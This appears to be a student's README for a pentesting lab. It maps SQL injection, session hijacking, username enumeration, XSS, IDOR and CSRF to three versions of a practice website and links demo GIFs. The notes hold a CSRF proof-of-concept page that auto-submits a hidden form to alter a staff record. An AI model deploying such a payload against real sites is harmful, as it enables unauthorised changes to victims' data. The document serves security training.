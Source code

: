 # Project 8 - Pentesting Live Targets

Time spent: 10 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection (SQLi)
[Week8_SQLI](http://i.imgur.com/iBXaxoC.gif?1)

Vulnerability #2: Session Hijacking/Fixation
http://i.imgur.com/vnp6gR0.gif

## Green

Vulnerability #1: Username Enumeration
http://i.imgur.com/xeWJxW2.gif

Vulnerability #2: Cross-Site Scripting
http://i.imgur.com/LGyb6Cw.gif

## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)
http://i.imgur.com/HhqdV19.gif

Vulnerability #2: Cross-Site Request Forgery

This one, I used postman to fire the POST request. After logging in as admin, I fired the POST request with the body of the following(see notes), however, I didn't see salespeople(id=7)'s info got editted. 


## Notes
<html> 
  <body onload="document.csrf.submit()">
    <form action="https://35.184.197.255/red/public/staff/salespeople/edit.php?id=7" method="POST" name="csrf" style="display: none;" target="hidden_results" >
      <input type="text" name="first_name" value="Hacker"><br>
      <input type="text" name="last_name" value="Hacker"><br>
      <input type="text" name="phone" value="999-999-9999"><br>
      <input type="text" name="email" value="hacker@hacker.com"><br>
    </form>
    <iframe name="hidden_results" style="display: none;"></iframe>
  </body>
</html>



